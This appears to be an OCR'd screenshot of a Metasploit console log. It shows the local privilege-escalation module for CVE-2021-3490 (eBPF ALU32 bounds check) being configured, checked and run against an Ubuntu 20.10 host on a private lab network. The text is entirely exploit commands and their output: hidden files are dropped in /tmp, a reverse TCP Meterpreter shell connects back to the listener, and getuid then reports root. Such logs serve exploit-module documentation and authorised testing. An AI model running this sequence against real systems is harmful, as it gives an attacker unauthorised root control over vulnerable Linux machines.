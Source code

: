 ```
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > check
[*] The target appears to be vulnerable.
msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > exploit

[*] Started reverse TCP handler on 192.168.224.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.8lHII9pIja' (39352 bytes) ...
[*] Writing '/tmp/.x3iDbm3J' (250 bytes) ...
[*] Launching exploit ...
[*] Sending stage (3012548 bytes) to 192.168.224.220
[+] Deleted /tmp/.8lHII9pIja
[+] Deleted /tmp/.x3iDbm3J
[*] Meterpreter session 2 opened (192.168.224.128:4444 -> 192.168.224.220:47878) at 2021-08-17 17:53:36 -0500

meterpreter > sysinfo
Computer     : 192.168.224.220
OS           : Ubuntu 20.10 (Linux 5.8.0-25-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                    Connection
  --  ----  ----                   -----------                                    ----------
  1         meterpreter x64/linux  test @ ubuntu (uid=1000, gid=1000, euid=1000,  192.168.224.128:46051 -> 192.168.224.220:4444
                                    egid=1000) @ 192.168.224.220                  (192.168.224.220)
  2         meterpreter x64/linux  root @ ubuntu (uid=0, gid=0, euid=0, egid=0)   192.168.224.128:4444 -> 192.168.224.220:47878
                                   @ 192.168.224.220                              (192.168.224.220)

msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) >
```
